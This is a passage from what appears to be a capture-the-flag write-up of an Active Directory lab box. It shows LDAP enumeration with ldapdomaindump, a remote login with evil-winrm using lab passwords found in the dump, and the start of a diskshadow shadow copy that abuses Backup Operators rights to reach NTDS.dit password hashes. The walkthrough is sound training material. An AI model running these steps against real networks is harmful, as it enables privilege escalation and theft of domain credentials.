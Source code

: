 ![image](https://user-images.githubusercontent.com/5285547/122771047-f6f6cd00-d29d-11eb-86b6-b74becdb92ad.png)

And grab our first flag

![image](https://user-images.githubusercontent.com/5285547/122771150-1261d800-d29e-11eb-9c78-3a544893cc59.png)

## User 2

```bash
pip install ldapdomaindump

ldapdomaindump 10.10.222.16 -u 'fusion.corp\lparker' -p '!!abbylvzsvs2k6!' --no-json --no-grep
```

```
firefox domain_users.html 
```

![image](https://user-images.githubusercontent.com/5285547/122771579-7be1e680-d29e-11eb-8ad5-f24a56bb48de.png)

We see the password for the next user in the description field. 

```
evil-winrm -i 10.10.222.16 -u jmurphy -p 'u8WC3!kLsgw=#bRY'
```

![image](https://user-images.githubusercontent.com/5285547/122771801-adf34880-d29e-11eb-8496-f5d21481bc45.png)


## Root/Admin

In the screenshot, you already saw, that jmurphy is a member of the group Backup Operators. Lets use this group to create a backup of the file NTDS.dit which contains all hashes (this file is used by some process and therefore can’t be read directly, so you need a backup). First create a file called diskshadow.txt and don’t forget to add a space after each line:

![image](https://user-images.githubusercontent.com/5285547/122772228-0fb3b280-d29f-11eb-8e83-1793653a4dc8.png)

```
diskshadow.exe /s .\diskshadow.txt
Microsoft DiskShadow version 1.0
Copyright (C) 2013 Microsoft Corporation
On computer:  FUSION-DC,  6/21/2021 6:44:34 AM

-> set metadata C:\tmp\tmp.cabs
-> set context persistent nowriters
-> add volume c: alias someAlias
-> create
Alias someAlias for shadow ID {613f6c43-7139-4153-9687-91ecb550c31d} set as environment variable.
Alias VSS_SHADOW_SET for shadow set ID {3f14ee17-9231-4b76-ae74-59cd1ab7da64} set as environment variable.

Querying all shadow copies with the shadow copy set ID {3f14ee17-9231-4b76-ae74-59cd1ab7da64}

        * Shadow copy ID = {613f6c43-7139-4153-9687-91ecb550c31d}               %someAlias%
                - Shadow copy set: {3f14ee17-9231-4b76-ae74-59cd1ab7da64}       %VSS_SHADOW_SET%
                - Original count of shadow copies = 1
                - Original volume name: \\?\Volume{66a659a9-0000-0000-0000-602200000000}\ [C:\]
                - Creation time: 6/21/2021 6:44:40 AM
                - Shadow copy device name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
                - Originating machine: Fusion-DC.fusion.corp
                - Service machine: Fusion-DC.fusion.corp
                - Not exposed
                - Provider ID: {b5946137-7b9f-4925-af80-51abd60b20d5}
                - Attributes:  No_Auto_Release Persistent No_Writers Differential

```